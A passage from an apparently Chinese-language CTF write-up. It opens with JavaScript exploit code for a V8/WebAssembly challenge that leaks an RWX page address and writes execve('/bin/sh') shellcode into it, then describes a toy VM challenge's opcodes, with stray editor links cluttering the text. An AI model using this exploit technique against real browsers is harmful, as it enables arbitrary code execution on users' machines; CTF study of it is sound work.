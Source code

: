 ```
var shared_info_addr = read64(f_addr + 0x18n) - 0x1n;
var wasm_exported_func_data_addr = read64(shared_info_addr + 0x8n) - 0x1n;
var wasm_instance_addr = read64(wasm_exported_func_data_addr + 0x10n) - 0x1n;
var rwx_page_addr = read64(wasm_instance_addr + 0x88n);

console.log("[*] leak rwx_page_addr: 0x" + hex(rwx_page_addr));

var shellcode = [
    0x2fbb485299583b6an,
    0x5368732f6e69622fn,
    0x050f5e5457525f54n
];

var data_buf = new ArrayBuffer(24);
var data_view = new DataView(data_buf);
var buf_backing_store_addr = addressOf(data_buf) + 0x20n;

write64(buf_backing_store_addr, rwx_page_addr);
data_view.setFloat64(0, i2f(shellcode[0]), true);
data_view.setFloat64(8, i2f(shellcode[1]), true);
data_view.setFloat64(16, i2f(shellcode[2]), true);


f();
```
# my_vm
程序实现了一个简单的虚拟机，可以通过执行指令来操作寄存器和内存
- `0x10`：将 [param_1](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 的低 16 位存入寄存器 [bVar1](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html)。
- `0x20`：将寄存器 [bVar1](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 的值压入栈，并增加栈指针。
- `0x30`：从栈中弹出值到寄存器 [bVar1](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html)，并减少栈指针。
- `0x40`：将寄存器 [bVar2](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 和 [bVar3](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 的值相加，结果存入寄存器 [bVar1](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html)。
- `0x50`：将寄存器 [bVar2](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 和 [bVar3](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 的值相减，结果存入寄存器 [bVar1](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html)。
- `0x60`：将寄存器 [bVar2](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 和 [bVar3](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 的值按位异或，结果存入寄存器 [bVar1](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html)。
- `0x70`：将寄存器 [bVar2](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 的值右移 [bVar3](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 指定的位数，结果存入寄存器 [bVar1](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html)。
- `0x80`：将寄存器 [bVar2](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 的值左移 [bVar3](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 指定的位数，结果存入寄存器 [bVar1](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html)。
- `0x90`：将寄存器 [bVar2](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 的值存入内存地址（由寄存器 [bVar1](vscode-file://vscode-app/usr/share/code/resources/app/out/vs/code/electron-sandbox/workbench/workbench.html) 指定）。
分别对应的是
- `0x10` - `imm`
- `0x20` - `push`
- `0x30` - `pop`